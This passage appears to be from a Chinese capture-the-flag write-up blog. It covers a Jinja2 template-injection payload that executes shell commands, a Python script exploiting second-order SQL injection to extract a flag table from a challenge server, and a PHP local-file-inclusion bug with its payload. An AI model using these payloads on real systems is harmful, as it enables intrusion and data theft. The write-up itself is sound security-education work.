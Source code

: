 jinja2模板执行读文件操作

`{{self.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}`

加密后传入即可得到结果
![在这里插入图片描述](https://img-blog.csdnimg.cn/ee3ced2d33414dc18cf76227c197289c.png)
最终

`.%14JP%C2%A6%01EQT%C2%94%C3%96%1A%C2%AA%C2%8D%C3%89%C3%A6%0B%C2%ACS8%C2%B8P%C3%A1~%19%C2%AE%07%C3%87m%C3%B30%C3%B2%24%C2%87Y%C3%9F%06%C3%A2%17%C3%9B%40%C2%9D%C2%B2%C3%9Dd%03%C2%AD%15%C2%B7%C2%A9yS%25%C3%96b%2B%C2%98%2C%0F%C2%8D%C3%B7Z%1E%C3%A5%C2%91%17%C3%B2%0E9E%23%C2%A9%00%C3%9D5%C3%A1%7B%C3%9D%7CA%2Aq%0C%C3%81%C3%84%5E%C2%B9%C2%B2%C3%AE%C2%8E%C3%B3%C2%9C `

![在这里插入图片描述](https://img-blog.csdnimg.cn/348063625fd042fbb40276e259ec4e25.png)

# [网鼎杯2018]Unfinish

https://blog.csdn.net/qq_46263951/article/details/118735000
二次注入，登陆显示用户名

```python

import requests
 
login_url='http://220.249.52.133:39445/login.php'
register_url='http://220.249.52.133:39445/register.php'
content=''
for i in range(1,20):
    data_register={'email':'15@%d'%i,'username':"0'+( substr(hex(hex((select * from flag ))) from (%d-1)*10+1 for 10))+'0"%i,'password':'1'}
    #print(data)
    data_login={'email':'15@%d'%i,'password':'1'}
    requests.post(register_url,data=data_register)
    rr=requests.post(login_url,data=data_login)
    rr.encoding='utf-8'
    r=rr.text
    location=r.find('user-name')
    cont=r[location+17:location+42].strip()
    content+=cont
    print(cont)
#content=content.decode('hex').decode('hex')
print(content)
 
```

只是后面写出来，线程问题buu报429，拼一下吧


# [网鼎杯 2020 半决赛]AliceWebsite

```php

<?php
        $action = (isset($_GET['action']) ? $_GET['action'] : 'home.php');
        if (file_exists($action)) {
            include $action;
        } else {
            echo "File not found!";
        }
?>

```

action=/flag
